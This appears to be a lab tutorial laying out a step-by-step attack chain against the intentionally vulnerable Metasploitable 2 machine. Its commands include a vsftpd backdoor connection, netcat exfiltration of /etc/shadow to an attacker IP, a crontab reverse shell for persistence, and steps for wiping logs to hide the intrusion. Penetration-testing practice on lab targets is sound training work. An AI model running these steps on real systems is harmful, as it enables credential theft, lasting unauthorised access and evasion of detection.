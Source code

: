 # Complex Hacking Methodology for Metasploitable 2

This document outlines an advanced hacking approach for Metasploitable 2, involving multiple phases such as reconnaissance, manual exploitation, privilege escalation, and post-exploitation.

## 1. Reconnaissance (Information Gathering)

### Active and Passive Scanning:

Use `nmap`, `netcat`, and `whois` to identify open ports, services, and OS details.

```
nmap -A -sV <target IP>
```

- Use `nikto` or `dirb` for web vulnerability scanning.
- OS fingerprinting can be done with tools like `p0f` or `xprobe`.

### Service Enumeration:

Enumerate services such as:

- FTP (vsftpd) on port 21
- SSH (OpenSSH) on port 22
- Telnet on port 23
- SMTP on port 25
- HTTP (Apache) on port 80
- MySQL on port 3306
- RPCBind/NFS on port 111

Use tools like `enum4linux` for SMB enumeration or `hydra` for brute force attacks.

## 2. Vulnerability Assessment

Perform a vulnerability scan with `OpenVAS` or `Nessus` after mapping services.

Example vulnerability: **vsftpd v2.3.4 backdoor**.

## 3. Exploitation (Manual and Customized)

### vsftpd 2.3.4 Backdoor:

Manually exploit the backdoor using `netcat`:

```
nc <target IP> 6200
```

### Custom Buffer Overflow Exploit:

For advanced exploitation, analyze services like Apache Tomcat (port 8080) or MySQL for buffer overflow vulnerabilities. Use tools like `gdb` or `pwndbg` to craft a custom exploit.

## 4. Privilege Escalation

Once a low-privilege shell is obtained, escalate privileges.

### Kernel Exploits:

Look for kernel vulnerabilities like **dirty cow** or `udev` exploits.

### Search for SUID Binaries:

```
find / -perm -u=s -type f 2>/dev/null
```

### Misconfigurations:

Check for misconfigured services (e.g., NFS, sudo permissions).

## 5. Pivoting and Lateral Movement

After gaining initial access, pivot within the network using SSH pivoting or port forwarding.

### SSH Pivoting Example:

```
ssh -L <local_port>:<target_IP>:<target_service_port> <user>@<compromised_host>
```

### Metasploit Route Setup (Post-Exploitation):

```
run autoroute -s <target IP>
```

## 6. Post-Exploitation

### Dump Passwords:

Use tools like `hashdump` or `mimikatz` to retrieve stored passwords or hashes.

### Gather Sensitive Data:

Retrieve SSH keys, database files, and system credentials.

### Data Exfiltration Using Netcat:

```
nc -lvp 4444 > file.txt
cat /etc/shadow | nc <attacker IP> 4444
```

## 7. Covering Tracks

Securely delete sensitive files and logs to remove traces of the attack.

### Clear Logs:

- `/var/log/auth.log`
- `.bash_history`

Use `shred` or `dd` to securely delete files.

## 8. Persistence

To maintain access, plant a backdoor or create a new account.

### Add a Cron Job for Backdoor:

```
echo "_/5 _ \* \* \* /bin/bash -i >& /dev/tcp/<attacker IP>/4444 0>&1" >> /etc/crontab
```

## Conclusion

This methodology goes beyond simple Metasploit usage by manually exploiting vulnerabilities, escalating privileges, pivoting through networks, and ensuring persistence and stealth. Follow these steps to simulate a more complex attack on Metasploitable 2.

